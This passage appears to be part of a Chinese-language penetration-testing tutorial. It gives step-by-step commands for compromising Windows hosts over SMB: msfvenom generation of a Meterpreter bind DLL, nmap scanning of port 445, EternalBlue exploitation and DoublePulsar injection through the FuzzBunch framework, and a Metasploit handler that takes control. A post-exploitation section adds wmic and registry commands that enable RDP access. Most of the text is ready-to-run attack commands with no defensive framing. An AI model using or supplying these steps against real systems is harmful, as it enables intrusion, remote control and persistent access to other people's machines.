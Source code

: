 - [python-2.6.6.msi**](http://link.zhihu.com/?target=https%3A//www.python.org/download/releases/2.6.6/)

- [pywin32-221.win32-py2.6.exe**](http://link.zhihu.com/?target=https%3A//sourceforge.net/projects/pywin32/files/pywin32/Build%20221/pywin32-221.win32-py2.6.exe/download)

- 在攻击机2先生成用于回连的dll

  ```
  msfvenom -p windows/meterpreter/bind_tcp LPORT=5555 -f dll > x86bind.dll
  ```

  3.扫描开启445端口的活跃主机并探测操作系统

  ```
  nmap -Pn -p445 -O 10.10.10.0/24
  nmap -Pn -p445 -O -iL ip.txt
  ```

  4.攻击机1开始利用ETERNALBLUE攻击

  ```
  python fb.py 
  use Eternalblue ...
  ```

  5.利用Doublepulsar注入dll

  ```
  use Doublepulsar
  ```

  6.kali攻击机利用msf回连控制主机5555端口

  ```
  use exploit/multi/handler
  set payload windows/meterpreter/bind_tcp
  set LPORT 5555
  set RHOST XXX.XXX.XXX.XXX
  exploit
  ```

# **后渗透攻击**

1. 开3389端口

   - ```
     wmic /namespace:\root\cimv2\terminalservices path 
     win32_terminalservicesetting where (__CLASS != “”) call 
     setallowtsconnections 1
     ```

   - ```
     wmic /namespace:\root\cimv2\terminalservices path 
     win32_tsgeneralsetting where (TerminalName =’RDP-Tcp’) call 
     setuserauthenticationrequired 1
     ```

   - ```
     reg add “HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fSingleSessionPerUser /t REG_DWORD /d 0 /f
     ```
